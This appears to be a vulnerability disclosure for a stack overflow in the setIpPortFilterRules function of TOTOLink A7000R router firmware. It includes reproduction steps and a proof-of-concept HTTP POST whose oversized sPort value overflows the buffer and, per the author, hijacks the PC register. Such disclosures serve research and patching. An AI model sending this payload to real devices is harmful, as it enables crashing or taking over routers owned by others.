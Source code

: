# TOTOLink A7000R V9.1.0u.6115_B20201022has a stack overflow vulnerability

## Overview

- Firmware download address: https://totolink.cn/home/menu/detail.html?menu_listtpl=download&id=9&ids=36
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A7000R V9.1.0u.6115_B20201022 router, the latest version of simulation overview：

![image-20231122042242563](image/image-20231122042242563.png)

## Vulnerability details

![image-20231122042334071](image/image-20231122042334071.png)

In setIpPortFilterRules function

`v8 v9` is formatted into `V16` through sprintf function, and` v8 v9` is the value of `sPort ePort`  we enter. The size of the format string is not limited, resulting in stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 78
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/basic/index.html
Cookie: SESSION_ID=2:1700540000:2

{

"topicurl":"setIpPortFilterRules",

"addEffect":"1",

"sPort":"a"*0x1000

}
```

![image-20231122042807502](image/image-20231122042807502.png)

The above figure shows the POC attack effect

![image-20231122042842213](image/image-20231122042842213.png)

As shown in the figure above, we can hijack PC registers.

![image-20231122042917776](image/image-20231122042917776.png)